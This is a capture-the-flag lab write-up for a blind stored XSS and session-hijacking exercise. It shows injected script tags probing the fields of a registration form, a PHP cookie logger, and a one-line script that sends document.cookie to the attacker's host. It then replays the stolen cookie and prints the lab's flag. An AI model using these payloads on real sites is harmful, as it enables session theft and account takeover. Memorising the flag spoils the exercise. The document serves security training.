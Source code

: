 ## Challenge

Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the Admin's cookie and use it in 'login.php' to get the flag.

## Solution

I visit the page on the `/hijacking` path where there is a form to register.

Via `ip a` I get my ip address which is `c` and I start a server via `python3 -m http.server`.

I send the following (changing the path depending on the field name) to each field and check the terminal where I'm listening, to see if I got a requst.

```html
"><script src=http://10.10.15.68:8000/fullname></script>
```

And then I got a request `"GET /profile_picture HTTP/1.1" 404 -` which tells me that the last field is vulnerable.

Now create an `index.php`:

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

and a `script.js`:
```js
new Image().src='http://10.10.15.68:8000/index.php?c='+document.cookie
```

Then on the registration form, in the email fieald, I put the following:

```sh
"><script src=http://10.10.15.68:8000/script.js></script>
```

and I got the cookie on the terminal:

```sh
"GET /script.js HTTP/1.1" 200 -
"GET /index.php?c=cookie=c00k1355h0u1d8353cu23d HTTP/1.1" 200 -
```

On the `website/hijacking/login.php`, I press `Shift F9` on Storage, I click on the plus sign and add the name of `cookie` and the value of `c00k1355h0u1d8353cu23d` and refresh the page, which gives me the flag:

`HTB{4lw4y5_53cur3_y0ur_c00k135}`



